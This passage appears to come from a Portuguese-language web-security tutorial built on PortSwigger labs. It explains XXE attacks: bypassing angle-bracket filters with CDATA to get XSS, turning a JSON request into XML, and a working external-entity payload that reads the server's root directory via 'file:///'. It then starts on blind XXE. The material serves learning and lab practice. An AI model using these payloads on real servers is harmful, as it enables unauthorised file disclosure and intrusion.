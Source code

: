 Na maioria dos campos de input os caracteres `<` e `>` são bloqueados, então conseguimso bypassar colocando eles no CDATA, devido a eles não serem parseados, apenas apresentados no output.

Caso esteja utilizando burpsuite podemos utilizar o "Show response in browser" e verificar se existe um alerta com o número 1, se sim então podemos efetuar ataques XSS por XXE.

### Utilizando JSON em ataques XXE

Em uma chamada POST, poderemos verificar o payload e ver os campos enviados, comumente são utilizados `JSON's` e o `Content-Type` é `application/json`, supondo que o payload enviado seja:

```json
{
  "text":"Is this vulnerable?"
}
```

Vamos tentar modificar o payload para XML, o `Content-Type` para `application/xml` e ver qual o resultado, ficaria da seguinte maneira:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
  <!ENTITY roz SYSTEM "file:///">
]>
<comment>
  <text>
    &roz;
  </text>
</comment>
```

Caso o retorno sejam as pastas do diretório / do servidor nós conseguimos modificar o payload e enviar executando comandos.

### Blind XXE

Nos ataques anteriores nós conseguimos definir qual campo estava vulnerável, mas e quando existe um retorno diferente do nosso input? Podemos utilizar Blind XXE, vamos utilizar outro lab do PortSwigger para exemplificar esse caso, o lab é o [Blind XXE with out-of-band interaction via XML parameter Entities](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities).

Entrando na página de detalhes de qualquer produto, podemos ver que existe um botão `check stock`, vamos interceptá-lo e ver o payload.

```xml
<?xml version="1.0" encoding="utf-8"?>
<stockCheck>
  <productId>
    1
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
